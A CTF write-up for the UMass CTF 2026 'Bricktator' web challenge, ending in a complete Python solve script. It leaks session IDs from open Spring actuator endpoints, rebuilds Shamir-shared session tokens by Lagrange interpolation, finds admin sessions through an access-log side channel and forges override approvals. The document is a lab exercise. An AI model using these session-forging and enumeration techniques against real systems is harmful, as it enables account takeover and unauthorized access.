

# Bricktator — UMass CTF 2026

> **Room / Challenge:** Bricktator (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** Bricktator (web)

---

<p align="center"></p>

## Goal

Get admin approvals and get the flag.

## My Solution

Download the source here: [source.zip](https://github.com/jameskaois/ctf-writeups/raw/refs/heads/main/umass-ctf-2026/Bricktator/source.zip).

The goal is to get 5 admin approvals to blow up a reactor. We start with the bricktator creds so we only need 4 more.

First thing I noticed in the source is the spring actuator is left open. If you go to `/actuator/sessions` you can leak the custom session IDs for `john_doe` and `jane_doe`.

The session IDs look weird because they use Shamir's Secret Sharing with a `key-threshold` of 3. That means its just a simple math equation. Since we have 3 points total (our bricktator session, john, and jane), we can use lagrange interpolation to solve the math and generate all 5,000 valid session IDs locally. (I use AI to do this)

But we need to figure out which 4 of those 5000 sessions have the `YANKEE_WHITE` admin role. I saw in the filter code that if a admin goes to `/command`, it does a slow bcrypt hash and logs it to another open actuator at `/actuator/accesslog`.

So instead of doing a annoying timing attack which takes forever over the internet, I just send the generated sessions in big chunks and check if the log `count` goes up! If it does, there is a admin.

Finally hit `/override` to get the override token, and loop through the 4 admin cookies to approve it.

Solve script:

```python
import requests, base64, re
from concurrent.futures import ThreadPoolExecutor

URL = "http://bricktator.web.ctf.umasscybersec.org:8080"
P = 2147483647

def inv(n, p): return pow(n, -1, p)

def lagrange(x, pts):
    y = 0
    for i, (xi, yi) in enumerate(pts):
        num, den = 1, 1
        for j, (xj, _) in enumerate(pts):
            if i != j:
                num = (num * (x - xj)) % P
                den = (den * (xi - xj)) % P
        y = (y + (yi * num * inv(den, P)) % P) % P
    return y

def enc(x, y):
    return base64.b64encode(f"{x:05d}-{y:08x}".encode()).decode()

def logs(s):
    return s.get(f"{URL}/actuator/accesslog").json().get('count', 0)

def main():
    s = requests.Session()
    s.mount('http://', requests.adapters.HTTPAdapter(pool_connections=100, pool_maxsize=100))

    print("Auth")
    s.post(f"{URL}/login", data={"username": "bricktator", "password": "goldeagle"})

    print("Anchors")
    p1 = next(x['id'] for x in s.get(f"{URL}/actuator/sessions?username=bricktator").json().get('sessions',[]) if '-' in x['id'])
    p2 = next(x['id'] for x in s.get(f"{URL}/actuator/sessions?username=john_doe").json().get('sessions',[]) if '-' in x['id'])
    p3 = next(x['id'] for x in s.get(f"{URL}/actuator/sessions?username=jane_doe").json().get('sessions',[]) if '-' in x['id'])

    pts = [
        (int(p1.split('-')[0]), int(p1.split('-')[1], 16)),
        (1, int(p2.split('-')[1], 16)),
        (5, int(p3.split('-')[1], 16))
    ]

    sessions = [enc(x, lagrange(x, pts)) for x in range(1, 5000) if x not in [1, 5]]
    targets = []

    def fire(batch):
        with ThreadPoolExecutor(50) as ex:
            ex.map(lambda sess: requests.get(f"{URL}/command", cookies={"SESSION": sess}, allow_redirects=False), batch)

    def search(batch):
        if len(targets) >= 4 or not batch: return
        c1 = logs(s)
        fire(batch)
        if logs(s) - c1 <= 0: return

        if len(batch) == 1:
            targets.append(batch[0])
            print(f"[+] Found: {base64.b64decode(batch[0]).decode()}")
            return

        mid = len(batch) // 2
        search(batch[:mid])
        search(batch[mid:])

    print("[*] Searching")
    for i in range(0, len(sessions), 500):
        if len(targets) >= 4: break
        search(sessions[i:i+500])

    if len(targets) < 4: return

    print("Override")
    r = s.post(f"{URL}/command/override")
    tok = re.search(r'([a-f0-9]{32})', r.text).group(1)

    for t in targets:
        r2 = requests.post(f"{URL}/override/{tok}", cookies={"SESSION": t})
        if "UMASS{" in r2.text:
            print(f"\n[★] {re.search(r'(UMASS\\{[^}]+\\})', r2.text).group(1)}")
            return

if __name__ == "__main__":
    main()
```
